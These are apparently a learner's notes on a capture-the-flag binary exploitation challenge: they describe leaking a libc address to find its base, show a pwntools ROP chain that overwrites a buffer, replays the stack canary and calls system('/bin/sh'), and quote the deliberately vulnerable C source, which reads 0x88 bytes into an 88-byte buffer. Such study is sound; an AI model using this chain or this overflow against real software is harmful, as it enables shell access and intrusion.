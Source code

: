 #### method to [[Find base of libc]]:
So if we leak a function from the libc library, e.g puts, `grep "puts"` and work out how far from base of binary. Then subtract that from address leaked, we have the address of the base of the binary.



### Part 3: finding gadgets
I couldn't find a pop_rdi gadget using ropper so not sure where the author got the address of that gadget however the alt_solve.py script uses ropstar(I think that's what it's called?) to find them.

```
rop = ROP(libc)
rop.raw(b"A" * 88)
rop.raw(canary)
rop.raw(p64(0)) # saved rbp
rop.rdi = p64(next(libc.search(b"/bin/sh\x00")))
rop.raw(p64(rop.find_gadget(['ret']).address)) # stack aligning ret
rop.call("system")
p.send(rop.chain())
```










 



### Source code for the program:
#source-code
```
  GNU nano 7.2                                           yawa.c                                                    
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void init() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
}

int menu() {
    int choice;
    puts("1. Tell me your name");
    puts("2. Get a personalised greeting");
    printf("> ");
    scanf("%d", &choice);
    return choice;
}

int main() {
    init();

    char name[88];
    int choice;

    while(1) {
        choice = menu();
        if(choice == 1) {
            read(0, name, 0x88);
        } else if(choice == 2) {
            printf("Hello, %s\n", name);
```